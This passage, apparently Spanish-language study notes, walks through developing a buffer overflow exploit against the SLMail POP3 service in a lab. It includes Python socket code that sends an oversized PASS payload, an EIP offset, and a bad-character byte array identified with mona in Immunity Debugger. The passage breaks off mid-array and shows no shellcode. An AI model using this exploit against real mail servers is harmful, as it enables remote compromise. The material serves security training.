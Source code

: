 ```python

    banner = s.recv(1024)

    s.send(b"USER tumbaburras" + b'\r\n')
    response = s.recv(1024)

    s.send(b"PASS" + payload + b'\r\n')


    s.close

if __name__ == '__main__':

    exploit()




```

Nuevamente reinicmaos el immuntiy debugger y el servicio del slmail para despues ejecutar el exploit

![[Pasted image 20240308215155.png]]

Entonces ahora podemos encontrar rapidamente si hay algun otro badchar con ayuda de mona y la utilidad de compare la cual al utlizarla nos muestra un nuevo badchar que es el 0d

![[Pasted image 20240308221555.png]]

Lo siguente que tenemos que hacer es actualizar nuestro bytearray elimimando los nuevos badchars para eso hacemos lo que hemos hecho anteriormente usando la utlidad de mona bytearray


![[Pasted image 20240308221951.png]]


Ya hecho esto modificamos el exploit y eliminamos el badchar que hemos localizado por lo que quedaria de la siguiente manera

```python
#!/usr/bin/python3.11
import sys
import socket

ip = "192.168.0.2"
port = 110


offset=4655

before_eip=b"A"*offset

eip=b"B"*4

after_eip=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
```